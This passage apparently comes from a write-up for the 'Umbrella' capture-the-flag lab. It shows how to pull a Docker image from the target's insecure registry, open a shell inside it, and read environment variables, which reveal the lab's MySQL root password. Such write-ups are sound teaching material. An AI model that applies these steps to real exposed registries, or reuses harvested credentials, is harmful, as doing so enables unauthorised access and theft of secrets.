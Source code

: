 There are two ways of getting information from the image:

- Method 1: Pull the image from the registry and run it in our local docker.
- Method 2: Extract the tags from the docker image and the following manifest and blobs.

### Method 1 - Pull and Run

To use the image we need to pull it from the registry first, however since the registry is using http, we need to add a configuration to our docker to pull from insecure registries:

- Add the following to /etc/docker/daemon.json:

```json
{
   "insecure-registries": [
      "umbrella.thm:5000"
    ]
}

```

- Then restart docker:

```shell
sudo systemctl daemon-reload
sudo systemctl restart docker
```

- See if it made changes: `docker info`

![](/images/umbrella/docker_insecure.png)

- Pull the image using the command: `docker pull 10.10.247.66:5000/umbrella/timetracking`
- Run image and get a shell inside `docker run -it --entrypoint sh  10.10.247.66:5000/umbrella/timetracking`

**Note:**

- We can analyze the different layers using a tool call [dive](https://github.com/wagoodman/dive): `dive 10.10.247.66:5000/umbrella/timetracking`

We notice a app.js. By extracting the source code, we know that we are dealing with the service running on port 8080.
Using printenv we get the environment variables and mysql credentials:

```shell
# printenv
NODE_VERSION=19.3.0
HOSTNAME=1a927e523fdc
YARN_VERSION=1.22.19
HOME=/root
OLDPWD=/usr/src/app
DB_DATABASE=timetracking
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5
LOG_FILE=/logs/tt.log
PWD=/usr/src/app/views
DB_HOST=db
DB_USER=root

```

